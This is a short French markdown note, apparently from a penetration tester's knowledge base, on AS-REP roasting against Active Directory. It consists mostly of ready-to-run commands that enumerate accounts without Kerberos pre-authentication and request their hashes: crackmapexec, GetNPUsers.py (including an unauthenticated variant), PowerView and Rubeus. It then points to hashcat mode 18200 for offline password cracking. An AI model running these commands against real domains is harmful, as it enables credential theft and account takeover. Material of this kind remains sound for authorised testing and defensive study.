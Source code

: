 ```yaml
---
public: true # set to true to make the article publishable
---
```


Obtention de la liste des utilisateurs n'ayant pas besoin de préauthentifaction.

Après obtention de cette liste, on pourra tenter de casser les mots de passe des utilisateurs.

## A distance

```powershell
crackmapexec ldap  $TARGET -u "$AD_USER" -p "$AD_PASSWORD" --asreproast asrep.txt

# NULL SESSION
GetNPUsers.py "$DOMAIN/" -dc-ip $TARGET -request -outputfile ASREProastables.txt


# Sans authentification
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
proxychains -q GetNPUsers.py -hashes "$PASSWORD" -dc-ip "$DC" "$DOMAIN/$USER" -debug

# Powerview
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat /domain:<domain>

# A VERIFIER NE SEMBLE RIN AVOIR 0 FAIRE ICI
# kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 


```

Cassage du mot de passe avec hashcat  : mode 18200

[[docs/_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
